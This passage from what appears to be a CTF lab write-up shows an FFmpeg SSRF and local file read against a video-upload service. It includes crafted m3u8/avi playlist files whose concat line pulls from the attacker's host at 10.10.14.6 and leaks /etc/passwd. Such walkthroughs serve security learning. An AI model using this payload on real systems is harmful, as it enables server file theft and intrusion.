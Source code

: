 ### Enumerate

With I’ll add the `adminToken` to the local storage in Dev Tools:

![image-20220727202344018](https://0xdfimages.gitlab.io/img/image-20220727202344018.png)

Now when I go to `/uploads`, select a small `.mkv` file, and click Submit,
there’s a message suggesting it was successful:

![image-20220727202426297](https://0xdfimages.gitlab.io/img/image-20220727202426297.png)

### ffmpeg

#### Strategy

The text on the upload page says the video will be “converted on the backend”.
This implies some kind of automated processing of the uploaded video. If a
Linux tool is being used on the video, it is almost certainly
[FFmpeg](https://ffmpeg.org/).

#### Local File Read POC

Some Googling for recent vulnerabilities in FFmpeg turns up [this hackerone
report](https://hackerone.com/reports/1062888), which shows how to abuse
FFmpeg with a SSRF and a local file read.

First I’ll create a `header.m3u8` file in a web directory. It’s important that
that file not have anything after that last `?` character ([this StackOverflow
answer](https://stackoverflow.com/a/16114535) shows how to do that in `vim`),
which can be verified with `xxd`:

    
    
    oxdf@hacky$ vim -b header.m3u8 
    oxdf@hacky$ xxd header.m3u8
    00000000: 2345 5854 4d33 550a 2345 5854 2d58 2d4d  #EXTM3U.#EXT-X-M
    00000010: 4544 4941 2d53 4551 5545 4e43 453a 300a  EDIA-SEQUENCE:0.
    00000020: 2345 5854 494e 463a 2c0a 6874 7470 3a2f  #EXTINF:,.http:/
    00000030: 2f31 302e 3130 2e31 342e 363f            /10.10.14.6?
    

Next, `mal.avi` just will trigger the call to get `header.m3u8`:

    
    
    #EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    #EXTINF:10.0,
    concat:http://10.10.14.6/header.m3u8|file:///etc/passwd
    #EXT-X-ENDLIST
    

It’s using the FFmpeg `concat` [protocol](https://ffmpeg.org/ffmpeg-
protocols.html#concat) and `file` [protocol](https://ffmpeg.org/ffmpeg-
protocols.html#file) to and exploiting a bug that will cause that URL to be
visited, leaking (at least part of) the file.

